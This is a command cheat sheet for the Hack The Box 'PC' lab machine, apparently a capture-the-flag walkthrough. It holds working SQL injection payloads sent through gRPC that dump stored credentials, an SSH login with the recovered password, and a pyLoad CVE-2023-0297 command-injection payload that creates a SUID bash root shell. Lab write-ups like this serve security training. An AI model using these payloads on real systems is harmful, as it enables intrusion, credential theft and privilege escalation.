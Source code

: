 # 💻 HTB: PC – Command Notes

## 🧭 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.214
nmap -p 22,50051 -sCV 10.10.11.214
```

### Check Unknown Port (TCP 50051)
```bash
nc 10.10.11.214 50051
```

---

## 📡 gRPC Enumeration

### Install grpcurl (if needed)
```bash
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest
```

### Basic Enumeration
```bash
grpcurl -plaintext 10.10.11.214:50051 list
grpcurl -plaintext 10.10.11.214:50051 list SimpleApp
grpcurl -plaintext 10.10.11.214:50051 describe SimpleApp
grpcurl -plaintext 10.10.11.214:50051 describe .LoginUserRequest
grpcurl -plaintext 10.10.11.214:50051 describe .getInfoRequest
```

---

## 👤 User Enumeration & Exploitation

### Register & Login
```bash
grpcurl -d 'username: "0xdf", password: "0xdf0xdf"' -plaintext -format text 10.10.11.214:50051 SimpleApp.RegisterUser
grpcurl -v -d 'username: "0xdf", password: "0xdf0xdf"' -plaintext -format text 10.10.11.214:50051 SimpleApp.LoginUser
```

### Store and Use Token
```bash
export TOKEN=<token_from_login>
grpcurl -d 'id: "54"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

---

## 🩻 SQLi via gRPC

### Check SQLi with `union select`
```bash
grpcurl -d 'id: "320 union select 1"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Identify DBMS
```bash
grpcurl -d 'id: "320 union select sqlite_version()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Get Tables
```bash
grpcurl -d 'id: "320 union select group_concat(tbl_name) from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Get Table Structure
```bash
grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Extract Data from `accounts` Table
```bash
grpcurl -d 'id: "320 union select group_concat(username || \":\" || password ) from accounts"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

---

## 🐚 Shell as sau

### SSH Login
```bash
sshpass -p 'HereIsYourPassWord1431' ssh sau@10.10.11.214
```

---

## 🚀 Privilege Escalation via PyLoad (CVE-2023-0297)

### Confirm Local Web Access
```bash
curl localhost:9666
curl localhost:8000
```

### SSH Port Forwarding
```bash
sshpass -p 'HereIsYourPassWord1431' ssh sau@10.10.11.214 -L 9666:localhost:9666 -L 8000:localhost:8000
```

### Exploit POC (CVE-2023-0297)
```bash
curl -d 'jk=pyimport os;os.system("touch /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
```

### Root Shell via SetUID Bash
```bash
curl -d 'jk=pyimport os;os.system("cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
/tmp/0xdf -p
```

---

## 🔬 Beyond Root – App Inspection

### App Location
```bash
cd /opt/app
ls
```

### Files
- `app.proto`: GRPC proto definitions
- `app.py`: GRPC service implementation
- `sqlite.db`: backend database